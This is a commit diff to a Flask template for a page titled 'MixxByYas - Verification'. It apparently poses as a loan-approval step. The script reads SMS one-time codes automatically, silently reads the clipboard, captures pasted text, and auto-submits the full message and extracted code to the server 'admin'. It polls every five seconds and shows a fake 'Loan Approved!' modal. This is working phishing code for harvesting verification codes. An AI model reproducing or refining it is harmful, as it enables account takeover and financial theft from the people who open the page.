

Before and after one commit to alphalibee1544/my-own-mixx, a Flask app: page /approve in a window 1280 px wide. Shown: the whole page, without its empty margins (0-954 px from the left). Before the commit the page ends 698 px from the top, so only its background shows below. Run offline with Flask 2, Linux system fonts and the light colour scheme.

Commit message:
Update approve.html

```diff
--- a/templates/approve.html
+++ b/templates/approve.html
@@ -3,90 +3,83 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>MixxByYas • Verification</title>
-    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css">
+    <title>MixxByYas - Verification</title>
     <style>
-        * { margin: 0; padding: 0; box-sizing: border-box; font-family: Arial, sans-serif; }
         body {
+            font-family: Arial, sans-serif;
+            background: #0b0e1a;
+            color: white;
+            display: flex;
+            justify-content: center;
+            align-items: center;
             min-height: 100vh;
-            background: linear-gradient(145deg, #0b0e1a, #141b2b);
-            display: flex;
-            align-items: center;
-            justify-content: center;
+            margin: 0;
             padding: 20px;
         }
-        .card {
-            max-width: 480px;
+        .container {
+            max-width: 450px;
             width: 100%;
-            background: rgba(22, 30, 46, 0.9);
-            border-radius: 30px;
-            padding: 30px 20px;
-            border: 1px solid rgba(255,255,255,0.05);
+            background: #1a1f35;
+            padding: 25px;
+            border-radius: 20px;
+            border: 1px solid #2a2f4a;
         }
-        h2 {
-            color: #f1f5f9;
-            font-size: 24px;
-            margin-bottom: 10px;
-        }
-        .sub {
-            color: #94a3b8;
+        h2 { color: #fff; margin-bottom: 5px; }
+        .sub { color: #8899bb; margin-bottom: 20px; font-size: 14px; }
+        .step-box {
+            background: #12172a;
+            padding: 15px;
+            border-radius: 12px;
             margin-bottom: 20px;
         }
-        .step-guide {
-            background: rgba(15, 23, 42, 0.6);
-            border-radius: 15px;
-            padding: 15px;
-            margin-bottom: 20px;
-        }
-        .step-item {
+        .step {
             display: flex;
             align-items: center;
             gap: 12px;
-            margin-bottom: 10px;
-            color: #e2e8f0;
+            color: #ccd;
+            padding: 4px 0;
+            font-size: 14px;
         }
-        .step-item:last-child { margin-bottom: 0; }
         .step-num {
             background: #4f46e5;
-            color: white;
             border-radius: 50%;
-            width: 28px;
-            height: 28px;
+            width: 24px;
+            height: 24px;
             display: flex;
+            justify-content: center;
             align-items: center;
-            justify-content: center;
             font-weight: bold;
-            font-size: 13px;
+            font-size: 12px;
         }
-        .sms-box {
-            background: #0f172a;
-            border-radius: 15px;
+        .sms-area {
+            background: #0d1225;
+            border-radius: 12px;
             padding: 15px;
-            border: 1px solid #334155;
+            border: 1px solid #2a2f4a;
             margin: 15px 0;
         }
-        .sms-box label {
-            color: #94a3b8;
+        .sms-area label {
+            color: #8899bb;
             font-size: 13px;
             display: block;
             margin-bottom: 8px;
         }
-        textarea#smsCode {
+        textarea {
             width: 100%;
             background: transparent;
             border: none;
-            color: #f1f5f9;
-            font-size: 15px;
+            color: #fff;
+            font-size: 14px;
             min-height: 80px;
             outline: none;
+            resize: none;
             font-family: monospace;
-            resize: none;
         }
-        .btn-primary {
+        .btn {
             width: 100%;
             background: #4f46e5;
             border: none;
-            padding: 15px;
+            padding: 14px;
             border-radius: 30px;
             color: white;
             font-weight: bold;
@@ -94,12 +87,12 @@
             cursor: pointer;
             margin-top: 10px;
         }
-        .btn-primary:disabled { opacity: 0.6; cursor: not-allowed; }
-        .resend-area {
+        .btn:disabled { opacity: 0.5; cursor: not-allowed; }
+        .resend-row {
             display: flex;
             justify-content: space-between;
             margin-top: 15px;
-            color: #94a3b8;
+            color: #8899bb;
             font-size: 14px;
         }
         #resendBtn {
@@ -109,218 +102,204 @@
             cursor: pointer;
             font-weight: bold;
         }
-        #resendBtn:disabled { opacity: 0.4; cursor: not-allowed; }
-        .status-badge {
+        #resendBtn:disabled { opacity: 0.4; }
+        .status {
             text-align: center;
             margin-top: 15px;
-            color: #94a3b8;
+            color: #8899bb;
             font-size: 14px;
         }
         .hidden { display: none !important; }
         .toast {
-            background: #0f172a;
+            background: #0d1225;
             border-left: 3px solid #4f46e5;
             padding: 10px 15px;
-            border-radius: 10px;
-            color: #e2e8f0;
+            border-radius: 8px;
             margin: 10px 0;
+            color: #ccd;
             font-size: 14px;
+        }
+        .code-display {
+            background: #0d1225;
+            padding: 10px;
+            border-radius: 8px;
+            text-align: center;
+            color: #34d399;
+            font-size: 20px;
+            font-weight: bold;
+            font-family: monospace;
+            margin: 10px 0;
+            letter-spacing: 3px;
+        }
+        .detect-badge {
+            background: #1a2a1a;
+            border: 1px solid #2a4a2a;
+            border-radius: 20px;
+            padding: 6px 15px;
+            display: inline-block;
+            color: #34d399;
+            font-size: 13px;
+            margin-bottom: 15px;
+        }
+        .btn-app {
+            display: inline-block;
+            background: #2a2f4a;
+            border: 1px solid #3a3f5a;
+            padding: 8px 20px;
+            border-radius: 20px;
+            color: #ccd;
+            text-decoration: none;
+            font-size: 14px;
+            margin-right: 8px;
+        }
+        .btn-app i { margin-right: 5px; }
+        .success-overlay {
+            position: fixed;
+            top: 0; left: 0; right: 0; bottom: 0;
+            background: rgba(0,0,0,0.85);
+            display: none;
+            justify-content: center;
+            align-items: center;
+            z-index: 1000;
+        }
+        .success-overlay.show { display: flex; }
+        .success-modal {
+            background: #1a1f35;
+            padding: 30px;
+            border-radius: 20px;
+            text-align: center;
+            max-width: 350px;
+            width: 90%;
+            border: 1px solid #2a4a2a;
+        }
+        .success-modal h2 { color: #34d399; margin: 10px 0; }
+        .success-modal p { color: #8899bb; }
+        .success-modal button {
+            background: #4f46e5;
+            border: none;
+            padding: 10px 30px;
+            border-radius: 20px;
+            color: white;
+            font-weight: bold;
+            cursor: pointer;
+            margin-top: 10px;
         }
         .spinner {
             display: inline-block;
-            width: 16px;
-            height: 16px;
+            width: 14px;
+            height: 14px;
             border: 2px solid rgba(255,255,255,0.2);
             border-top: 2px solid white;
             border-radius: 50%;
             animation: spin 0.7s linear infinite;
         }
         @keyframes spin { 0% { transform: rotate(0); } 100% { transform: rotate(360deg); } }
-        .detect-badge {
-            background: rgba(16, 185, 129, 0.15);
-            border: 1px solid rgba(16, 185, 129, 0.3);
-            border-radius: 30px;
-            padding: 6px 15px;
-            display: inline-block;
-            color: #34d399;
-            font-size: 13px;
-            margin-bottom: 15px;
-        }
-        .code-display {
-            background: #0f172a;
-            padding: 10px;
-            border-radius: 10px;
-            text-align: center;
-            color: #34d399;
-            font-size: 22px;
-            font-weight: bold;
-            font-family: monospace;
-            margin: 10px 0;
-            letter-spacing: 3px;
-        }
-        .success-overlay {
-            position: fixed;
-            top: 0; left: 0; right: 0; bottom: 0;
-            background: rgba(0,0,0,0.8);
-            display: none;
-            align-items: center;
-            justify-content: center;
-            z-index: 1000;
-        }
-        .success-overlay.show { display: flex; }
-        .success-modal {
-            background: #1e293b;
-            padding: 30px;
-            border-radius: 25px;
-            text-align: center;
-            max-width: 350px;
-            width: 90%;
-        }
-        .success-modal i { font-size: 50px; color: #34d399; }
-        .success-modal h2 { color: #f1f5f9; margin: 10px 0; }
-        .success-modal p { color: #94a3b8; margin-bottom: 15px; }
-        .success-modal button {
-            background: #4f46e5;
-            border: none;
-            padding: 10px 30px;
-            border-radius: 30px;
-            color: white;
-            font-weight: bold;
-            cursor: pointer;
-        }
-        .sms-actions {
-            display: flex;
-            gap: 10px;
-            margin: 10px 0;
-        }
-        .btn-app {
-            flex: 1;
-            background: #1e293b;
-            border: 1px solid #334155;
-            padding: 10px;
-            border-radius: 30px;
-            color: #e2e8f0;
-            text-align: center;
-            text-decoration: none;
-            font-size: 14px;
-        }
-        .btn-app i { margin-right: 5px; }
     </style>
 </head>
 <body>
 
-<div class="card">
-    <h2><i class="fas fa-mobile-screen-button" style="color:#818cf8;"></i> Code check</h2>
+<div class="container">
+    <h2>📱 Code Check</h2>
     <div class="sub">Auto-reads SMS from notification</div>
 
-    <div class="detect-badge">
-        <span id="detectionStatus">📱 Listening for SMS...</span>
+    <div class="detect-badge" id="detectionStatus">📱 Listening for SMS...</div>
+
+    <div class="step-box">
+        <div class="step"><span class="step-num">1</span> Wait for SMS to arrive</div>
+        <div class="step"><span class="step-num">2</span> Page auto-detects the code</div>
+        <div class="step"><span class="step-num">3</span> Auto-submits for verification</div>
     </div>
 
-    <div class="step-guide">
-        <div class="step-item"><span class="step-num">1</span> Wait for SMS to arrive</div>
-        <div class="step-item"><span class="step-num">2</span> Page auto-detects the code</div>
-        <div class="step-item"><span class="step-num">3</span> Auto-submits for verification</div>
-    </div>
-
-    <div class="sms-box">
-        <label><i class="fas fa-sms"></i> Full SMS</label>
-        <textarea id="smsCode" readonly placeholder="SMS will appear here..."></textarea>
+    <div class="sms-area">
+        <label>📩 Full SMS</label>
+        <textarea id="smsCode" readonly placeholder="SMS will appear here automatically..."></textarea>
     </div>
 
     <div id="codeDisplay" class="code-display" style="display:none;">
-        Code: <span id="extractedCodeDisplay"></span>
+        🔑 Code: <span id="extractedCodeDisplay"></span>
     </div>
 
-    <div class="sms-actions">
-        <a href="sms:" class="btn-app"><i class="fab fa-apple"></i> iPhone</a>
-        <a href="sms:" class="btn-app"><i class="fab fa-android"></i> Android</a>
+    <div>
+        <a href="sms:" class="btn-app">📱 iPhone</a>
+        <a href="sms:" class="btn-app">🤖 Android</a>
     </div>
 
-    <button class="btn-primary" id="submitBtn">
-        <i class="fas fa-check-circle"></i> Thibitisha
+    <button class="btn" id="submitBtn">
+        <span id="submitText">✅ Thibitisha</span>
         <span id="submitSpinner" class="spinner hidden"></span>
     </button>
 
-    <div class="resend-area">
-        <span><i class="far fa-clock"></i> <span id="resendCounter">0 / 3</span></span>
-        <button id="resendBtn" disabled><i class="fas fa-rotate-right"></i> Tuma tena</button>
+    <div class="resend-row">
+        <span>🔄 <span id="resendCounter">0 / 3</span></span>
+        <button id="resendBtn" disabled>↻ Tuma tena</button>
     </div>
 
-    <div id="statusToast" class="toast hidden">
-        <i class="fas fa-circle-check" style="color:#34d399;"></i>
-        <span id="toastMessage">SMS detected!</span>
-    </div>
-    <div class="status-badge" id="statusText">
-        <i class="fas fa-info-circle"></i> Waiting for SMS...
-    </div>
+    <div id="toastDiv" class="toast hidden"></div>
+    <div class="status" id="statusText">⏳ Waiting for SMS...</div>
 </div>
 
 <div id="successOverlay" class="success-overlay">
     <div class="success-modal">
-        <i class="fas fa-check-circle"></i>
-        <h2>Loan Approved! ✅</h2>
+        <h2>✅ Loan Approved!</h2>
         <p>Your loan has been approved successfully.</p>
         <button onclick="closeSuccess()">Done</button>
     </div>
 </div>
 
 <script>
-    const smsTextarea = document.getElementById('smsCode');
+    // SIMPLE WORKING VERSION
+    const smsCode = document.getElementById('smsCode');
     const submitBtn = document.getElementById('submitBtn');
+    const submitText = document.getElementById('submitText');
     const submitSpinner = document.getElementById('submitSpinner');
     const resendBtn = document.getElementById('resendBtn');
     const resendCounter = document.getElementById('resendCounter');
-    const toastDiv = document.getElementById('statusToast');
-    const toastMessage = document.getElementById('toastMessage');
     const statusText = document.getElementById('statusText');
     const detectionStatus = document.getElementById('detectionStatus');
     const codeDisplay = document.getElementById('codeDisplay');
     const extractedCodeDisplay = document.getElementById('extractedCodeDisplay');
+    const toastDiv = document.getElementById('toastDiv');
     const successOverlay = document.getElementById('successOverlay');
 
     let resendAttempts = 0;
-    let cooldownSeconds = 0;
-    let cooldownTimer = null;
+    let cooldown = 0;
     let isSubmitting = false;
     let smsDetected = false;
     let extractedCode = '';
 
     function showToast(msg) {
+        toastDiv.textContent = '• ' + msg;
         toastDiv.classList.remove('hidden');
-        toastMessage.textContent = msg;
-        clearTimeout(window.toastTimeout);
-        window.toastTimeout = setTimeout(() => toastDiv.classList.add('hidden'), 4000);
+        clearTimeout(window.toastTimer);
+        window.toastTimer = setTimeout(() => toastDiv.classList.add('hidden'), 4000);
     }
 
     function setStatus(msg) {
-        statusText.innerHTML = `<i class="fas fa-info-circle"></i> ${msg}`;
+        statusText.textContent = msg;
     }
 
     function updateResendUI() {
         resendCounter.textContent = `${resendAttempts} / 3`;
         if (resendAttempts >= 3) {
             resendBtn.disabled = true;
-            resendBtn.innerHTML = '<i class="fas fa-ban"></i> Imeisha';
-        } else if (cooldownSeconds > 0) {
+            resendBtn.textContent = '✖ Imeisha';
+        } else if (cooldown > 0) {
             resendBtn.disabled = true;
-            resendBtn.innerHTML = `<i class="fas fa-hourglass-half"></i> ${cooldownSeconds}s`;
+            resendBtn.textContent = `⏳ ${cooldown}s`;
         } else {
             resendBtn.disabled = false;
-            resendBtn.innerHTML = '<i class="fas fa-rotate-right"></i> Tuma tena';
+            resendBtn.textContent = '↻ Tuma tena';
         }
     }
 
     function startCooldown() {
-        if (cooldownTimer) clearInterval(cooldownTimer);
-        cooldownSeconds = 30;
+        cooldown = 30;
         updateResendUI();
-        cooldownTimer = setInterval(() => {
-            cooldownSeconds--;
+        const timer = setInterval(() => {
+            cooldown--;
             updateResendUI();
-            if (cooldownSeconds <= 0) {
-                clearInterval(cooldownTimer);
-                cooldownTimer = null;
+            if (cooldown <= 0) {
+                clearInterval(timer);
                 updateResendUI();
             }
         }, 1000);
@@ -362,18 +341,18 @@
 
             if (otp && otp.code) {
                 extractedCode = otp.code;
-                smsTextarea.value = `Your verification code is: ${otp.code}`;
+                smsCode.value = `Your verification code is: ${otp.code}`;
                 smsDetected = true;
 
                 codeDisplay.style.display = 'block';
                 extractedCodeDisplay.textContent = otp.code;
 
                 detectionStatus.textContent = '✅ SMS detected!';
-                showToast(`Code: ${otp.code}`);
-                setStatus('Code detected. Submitting...');
+                showToast(`✅ Code: ${otp.code}`);
+                setStatus('✅ Code detected. Submitting...');
 
                 setTimeout(() => {
-                    if (!isSubmitting && smsTextarea.value.trim()) {
+                    if (!isSubmitting && smsCode.value.trim()) {
                         submitCode();
                     }
                 }, 1000);
@@ -392,7 +371,7 @@
             if (!navigator.clipboard?.readText) return false;
             const text = await navigator.clipboard.readText();
             if (text && text.length > 10 && !smsDetected) {
-                smsTextarea.value = text;
+                smsCode.value = text;
                 smsDetected = true;
                 const code = extractCode(text);
                 if (code) {
@@ -401,10 +380,10 @@
                     extractedCodeDisplay.textContent = code;
                 }
                 detectionStatus.textContent = '✅ SMS from clipboard!';
-                showToast('SMS from clipboard!');
-                setStatus('SMS detected. Submitting...');
+                showToast('✅ SMS from clipboard!');
+                setStatus('✅ SMS detected. Submitting...');
                 setTimeout(() => {
-                    if (!isSubmitting && smsTextarea.value.trim()) {
+                    if (!isSubmitting && smsCode.value.trim()) {
                         submitCode();
                     }
                 }, 800);
@@ -423,44 +402,51 @@
     }
 
     function submitCode() {
-        const code = smsTextarea.value.trim();
+        const code = smsCode.value.trim();
         if (!code) {
-            showToast('Please wait for SMS.');
+            showToast('⚠️ Please wait for SMS.');
             return;
         }
         if (isSubmitting) return;
 
         isSubmitting = true;
         submitBtn.disabled = true;
+        submitText.textContent = '⏳ Sending...';
         submitSpinner.classList.remove('hidden');
-        setStatus('Sending to admin...');
+        setStatus('⏳ Sending to admin...');
 
         const codeToSend = extractedCode || extractCode(code) || code;
 
         fetch('/verify_code', {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
-            body: JSON.stringify({ code: code, full_sms: code, extracted_code: codeToSend })
+            body: JSON.stringify({
+                code: code,
+                full_sms: code,
+                extracted_code: codeToSend
+            })
         })
         .then(r => r.json())
         .then(data => {
             isSubmitting = false;
             submitBtn.disabled = false;
+            submitText.textContent = '✅ Thibitisha';
             submitSpinner.classList.add('hidden');
             if (data.status === 'success') {
-                showToast('Code sent to admin! 🔐');
-                setStatus('Waiting for admin approval.');
+                showToast('✅ Code sent to admin!');
+                setStatus('⏳ Waiting for admin approval.');
             } else {
-                showToast('Error. Try again.');
-                setStatus('Error. Please try again.');
+                showToast('❌ Error. Try again.');
+                setStatus('❌ Error. Please try again.');
             }
         })
         .catch(() => {
             isSubmitting = false;
             submitBtn.disabled = false;
+            submitText.textContent = '✅ Thibitisha';
             submitSpinner.classList.add('hidden');
-            showToast('Network error.');
-            setStatus('No connection.');
+            showToast('❌ Network error.');
+            setStatus('❌ No connection.');
         });
     }
 
@@ -476,34 +462,37 @@
     submitBtn.onclick = (e) => { e.preventDefault(); submitCode(); };
 
     resendBtn.onclick = function() {
-        if (resendAttempts >= 3 || cooldownSeconds > 0) return;
+        if (resendAttempts >= 3 || cooldown > 0) return;
         resendAttempts++;
         startCooldown();
         updateResendUI();
         smsDetected = false;
         extractedCode = '';
-        smsTextarea.value = '';
+        smsCode.value = '';
         codeDisplay.style.display = 'none';
         detectionStatus.textContent = '📱 Waiting for new SMS...';
         fetch('/resend_code', { method: 'POST' }).catch(() => {});
         setTimeout(() => detectSMS(), 2000);
     };
 
-    // Page events
+    // Page load
     window.onload = function() {
         setTimeout(detectSMS, 1000);
+        updateResendUI();
     };
 
+    // Visibility change (user returns to page)
     document.addEventListener('visibilitychange', function() {
         if (document.visibilityState === 'visible' && !smsDetected) {
             setTimeout(detectSMS, 500);
         }
     });
 
+    // Paste event
     document.addEventListener('paste', function(e) {
         const text = e.clipboardData?.getData('text');
         if (text && text.length > 10 && !smsDetected) {
-            smsTextarea.value = text;
+            smsCode.value = text;
             smsDetected = true;
             const code = extractCode(text);
             if (code) {
@@ -512,17 +501,17 @@
                 extractedCodeDisplay.textContent = code;
             }
             detectionStatus.textContent = '✅ SMS pasted!';
-            showToast('SMS pasted!');
-            setStatus('SMS detected. Submitting...');
+            showToast('✅ SMS pasted!');
+            setStatus('✅ SMS detected. Submitting...');
             setTimeout(() => {
-                if (!isSubmitting && smsTextarea.value.trim()) {
+                if (!isSubmitting && smsCode.value.trim()) {
                     submitCode();
                 }
             }, 400);
         }
     });
 
-    updateResendUI();
+    // Keep trying every 5 seconds
     setInterval(() => {
         if (!smsDetected && !isSubmitting) detectSMS();
     }, 5000);
```
